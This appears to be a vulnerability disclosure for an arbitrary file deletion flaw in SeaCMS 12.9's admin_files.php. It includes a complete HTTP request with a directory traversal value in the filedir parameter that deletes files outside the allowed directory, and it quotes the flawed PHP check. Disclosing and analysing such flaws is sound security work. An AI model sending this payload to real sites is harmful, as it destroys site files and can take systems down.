 

A file deletion vulnerability exists in SeaCMS 12.9 via admin_files.php.

Demonstration of the vulnerability

Our target is to delete article/index.php

![image-20240822094324167](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240822094324167.png)

Accessing admin_files.php

Click on a random file

![image-20240822094459066](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240822094459066.png)

Click on delete to intercept packets with burpsuit

Modify the filedir variable to delete any random file

```java
GET /p8qca/admin_files.php?action=del&filedir=../uploads/zt/../../article/index.php HTTP/1.1
Host: seacms:8181
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/admin_files.php?path=../uploads/zt
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; XDEBUG_SESSION=PHPSTORM; PHPSESSID=supsf31jdepfl81lcelmmp0um5
Connection: keep-alive


```

![image-20240822094606653](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240822094606653.png)

![image-20240822094623359](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240822094623359.png)

You can find that the index.php in our article directory has been deleted.

Code Analysis

Corresponding to the following code in admin_files.php

```java
elseif($action=='del')
{
	if($filedir == '')
	{
		ShowMsg('未指定要删除的文件或文件名不合法', '-1');
		exit();
	}
	if(substr(strtolower($filedir),0,$dirlen)!=$dirTemplate){
		ShowMsg("只允许删除附件目录内的文件！","admin_files.php");
		exit;
	}
	$folder=substr($filedir,0,strrpos($filedir,'/'));
	if(!is_dir($folder)){
		ShowMsg("目录不存在！","admin_files.php");
		exit;
	}
	unlink($filedir);
	ShowMsg("操作成功！","admin_files.php?path=".$folder);
	exit;
}
```

Although our directory is checked, we can still bypass it by directory traversal, and there is no restriction on the type of file operations we can perform, resulting in the deletion of arbitrary files that can cause system paralysis.

